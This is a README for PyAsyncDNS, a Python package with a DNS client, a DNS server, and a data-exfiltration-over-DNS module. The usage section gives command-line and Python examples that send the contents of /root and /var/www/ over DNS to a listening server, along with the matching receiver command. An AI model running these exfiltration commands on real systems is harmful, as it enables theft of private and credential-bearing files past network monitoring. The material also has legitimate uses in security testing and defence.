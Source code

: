![PyAsyncDNS Logo](https://mauricelambert.github.io/info/python/security/PyAsyncDNS_small.png "PyAsyncDNS logo")

# PyAsyncDNS

## Description

This package implements a basic asynchronous DNS client and server
with a feature to exfiltrate data through DNS.

## Requirements

This package require:

 - python3
 - python3 Standard Library

## Installation

### Pip

```bash
python3 -m pip install PyAsyncDNS
```

### Git

```bash
git clone "https://github.com/mauricelambert/PyAsyncDNS.git"
cd "PyAsyncDNS"
python3 -m pip install .
```

### Wget

```bash
wget https://github.com/mauricelambert/PyAsyncDNS/archive/refs/heads/main.zip
unzip main.zip
cd PyAsyncDNS-main
python3 -m pip install .
```

### cURL

```bash
curl -O https://github.com/mauricelambert/PyAsyncDNS/archive/refs/heads/main.zip
unzip main.zip
cd PyAsyncDNS-main
python3 -m pip install .
```

## Usages

### Command line

```bash
PyAsyncDNS              # Using CLI package executable
python3 -m PyAsyncDNS   # Using python module
python3 PyAsyncDNS.pyz  # Using python executable
PyAsyncDNS.exe          # Using python Windows executable

python3 -m PyAsyncDNS.client example.com kernel.org
PyAsyncDNS client example.com kernel.org

python3 -m PyAsyncDNS.server 127.0.0.1 53
PyAsyncDNS server 127.0.0.1 53

python3 -m PyAsyncDNS.exfiltrator 127.0.0.1 53 /root /var/www/
PyAsyncDNS exfiltration 127.0.0.1 53 /root /var/www/

python3 -m PyAsyncDNS.exfiltrator_server 127.0.0.1 53
PyAsyncDNS exfiltration-server 127.0.0.1 53 /root /var/www/
```

### Python script

```python
from PyAsyncDNS import *
from asyncio import run

addresses = run(resolve_all(['example.com', 'kernel.org'])) # resolve address
run(start_async_dns_server('127.0.0.1', 53))                # start server

server.get_response = lambda domain_name, transaction_id: "127.0.0.1"
run(start_async_dns_server('127.0.0.1', 53))                # start server with custom behaviour to define response

run(exfiltrate_directories(['/root', '/var/www/'], "127.0.0.1", 53)) # exfiltrate /root and /var/www/ directories through DNS to 127.0.0.1:53 using UDP
```

## Links

 - [Pypi](https://pypi.org/project/PyAsyncDNS)
 - [Github](https://github.com/mauricelambert/PyAsyncDNS)
 - [Documentation](https://mauricelambert.github.io/info/python/security/PyAsyncDNS.html)
 - [Python executable](https://mauricelambert.github.io/info/python/security/PyAsyncDNS.pyz)
 - [Python Windows executable](https://mauricelambert.github.io/info/python/security/PyAsyncDNS.exe)

## License

Licensed under the [GPL, version 3](https://www.gnu.org/licenses/).
